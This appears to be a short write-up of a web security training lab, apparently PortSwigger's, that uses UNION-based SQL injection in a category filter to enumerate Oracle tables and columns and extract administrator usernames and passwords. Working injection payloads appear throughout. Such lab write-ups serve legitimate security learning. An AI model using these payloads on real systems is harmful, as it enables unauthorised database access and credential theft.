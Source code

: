 **Objective**
Reveal administrator username and password stored on SQL database to login.

**SQLi**
- Structured Query Language or SQL injection occurs when attacker sends malicious input to SQL database. 
- Lack of validation or sanitisation of input leaves the database vulnerable to exploitation of stored information.

**Point of Entry**
Discover that the category filter function is vulnerable to SQLi. 
- By replacing category filter value in GET request with SQL 1. `'+UNION+SELECT+'abc','def'+FROM+dual--.`
- Both `'abc'` and `'def'` are printed on the page. 
- This reveals category filter as point of entry for a similar query to print database details on page.

To retrieve sensitive user information, refer [SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- For a list of all data tables on database, replace category filter value with payload `'+UNION+SELECT+table_name,+NULL+FROM+all_tables--`
- Insert name of users table in payload and repeat attack for table name details  `'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='users_abcdef'--`
- Insert returned user details into payload to retrieve user details `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

**Payload**`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`
